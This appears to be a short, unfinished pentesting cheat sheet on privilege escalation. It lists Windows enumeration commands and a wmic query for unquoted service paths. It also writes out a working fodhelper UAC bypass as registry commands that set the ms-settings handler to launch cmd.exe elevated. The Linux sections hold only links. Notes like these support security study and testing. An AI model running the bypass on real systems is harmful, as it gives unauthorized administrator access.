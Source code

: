 # Privilege Escalation

## Windows

### reference

<https://www.fuzzysecurity.com/tutorials/16.html>

### information gathering

```cmd
systeminfo
whoami
net user
net user <username>

```

```powershell
Get-ComputerInfo
```

### UAC bypass

```cmd

Win10 build 1709, 1809 ...
C:\Windows\System32\fodhelper.exe

```cmd
sigcheck.exe -a -m c:\windows\system32\fodhelper.exe

REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe" /f
```

### file


### wmic

```bash
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\"
```

### lolbas-project.github.io

## Linux

### gtfobins.github.io

<https://gtfobins.github.io/>

## Tips

1.

## linpeas
